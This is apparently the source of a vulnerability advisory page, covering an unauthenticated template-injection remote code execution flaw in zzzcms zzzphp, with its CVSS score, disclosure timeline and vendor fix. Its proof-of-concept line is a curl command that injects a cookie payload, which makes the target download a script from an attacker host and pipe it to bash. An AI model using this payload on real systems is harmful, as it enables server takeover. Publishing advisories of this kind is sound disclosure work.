 ```yaml
---
layout: page
permalink: /advisories/src-2021-0015/
id: SRC-2021-0015
atitle: zzzcms zzzphp parserIfLabel Template Injection Remote Code Execution Vulnerability
CVE: N/A
CVSSrating: 9.8
CVSSscore: (/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
vendor: zzzcms
affected: zzzphp <= 2.0.3
timeline: [
2021-04-27 – Sent to zzzcms,
2021-05-04 – No response from the vendor,
2021-05-04 – Sent an email requesting a status update,
2021-05-11 – No response from the vendor,
2021-05-11 – Vendor releases 2.0.4 with the note - "Fix a security loophole please update it in time.",
2021-05-11 – Uncoordinated public release of advisory,
]
credit: Steven Seeley (mr_me) of Qihoo 360 Vulcan Team
body: |
 <p class="cn" markdown="1">This vulnerability allows remote attackers to execute arbitrary code on affected installations of zzzcms. Authentication is not required to exploit this vulnerability.</p>
 <p class="cn" markdown="1">The specific flaw exists within the processing of the search template. The issue results from the lack of proper validation of user-supplied keys when processing the search template. An attacker can leverage this vulnerability to execute code in the context of the web server.</p>
acknowledgments:
poc: curl -b 'keys={if:=`curl http://attacker.tld/poc.sh|bash`}{end if}' 'http://target.tld/?location=search'
---
```


#### **{{page.id}} : {{page.atitle}}**

**CVE ID:**
{{page.CVE}}

**CVSS Score:**
{{page.CVSSrating}}, [{{page.CVSSscore}}](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector={{page.CVSSscore}})

**Affected Vendors:**
{{page.vendor}}

**Affected Products:**
{{page.affected}}
{% if page.affectedlist %}
{% for item in page.affectedlist %}
  - {{ item }}
{% endfor %}
{% endif %}
**Vulnerability Details:**
{{page.body}}

**Vendor Response:**

{{page.vendor}} has issued an update to correct this vulnerability. More details can be found at: [http://www.zzzcms.com/a/news/31_282_1.html](http://www.zzzcms.com/a/news/31_282_1.html)

**Disclosure Timeline:**
{% for item in page.timeline %}
  - {{ item }}
{% endfor %}
{% if page.poc %}

**Proof of Concept:**
```{{page.poc}}```

{% endif %}
**Credit:**
This vulnerability was discovered by {{page.credit}}
{% if page.acknowledgments %}

**Acknowledgments:**
{{page.acknowledgments}}
{% endif %}

